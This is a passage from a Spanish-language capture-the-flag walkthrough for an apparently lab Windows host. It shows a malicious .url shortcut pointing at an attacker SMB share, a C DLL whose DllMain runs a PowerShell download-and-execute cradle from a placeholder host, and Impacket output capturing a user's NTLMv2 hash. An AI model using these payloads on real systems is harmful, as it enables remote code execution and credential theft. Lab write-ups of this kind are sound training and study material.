 Nosotros podemos alterarlo para que nos visite ahora, un recurso en un servidor SMB externo:

```ini
[{000214A0-0000-0000-C000-000000000046}]
Prop3=19,2
[InternetShortcut]
IDList=
URL=file://\\<ip>\uwu\test.cpl
```

Vamos a intentar colar este archivo en el directorio que vimos antes, pero primero creemos un DLL con el siguiente código en C:

```c
#include <windows.h>
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE handle, DWORD reason, LPVOID reserved){
  switch(reason){
    case DLL_PROCESS_ATTACH: {
       system("powershell IEX((New-Object Net.WebClient).DownloadString('http://<ip>:<port>/file'))");
    }
  }
}
```
{: file="test.c" }

Luego de compilarlo y exponerlo en un servidor SMB, ya podremos subir el archivo de acceso directo que hemos creado anteriormente:

```bash
C:\inetpub\testing>curl -o names.url http://10.10.14.191:8000/thingy.url
curl -o names.url http://10.10.14.191:8000/thingy.url
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   123  100   123    0     0     39      0  0:00:03  0:00:03 --:--:--    39
```

y eventualmente:

```bash
❯ doas smbserver.py -smb2support uwu .
doas (vzon@pwnedz0n) password: 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.21,54088)
[*] AUTHENTICATE_MESSAGE (AXLLE\dallon.matrix,MAINFRAME)
[*] User MAINFRAME\dallon.matrix authenticated successfully
[*] dallon.matrix::AXLLE:aaaaaaaaaaaaaaaa:642ce2e1604c320bc8163a701c00ac09:010100000000000080aa7d769a37db01070521932a3024cb00000000010010005a006b004b0042006900670054004700030010005a006b004b00420069006700540047000200100053006c005500760076006300670076000400100053006c005500760076006300670076000700080080aa7d769a37db0106000400020000000800300030000000000000000100000000200000e5a179cbec00d2364d2a31989e6e69a54e8eadcb3c731c1dc9e738402e39abbe0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100390031000000000000000000
[*] Connecting Share(1:uwu)
... [snip]
```
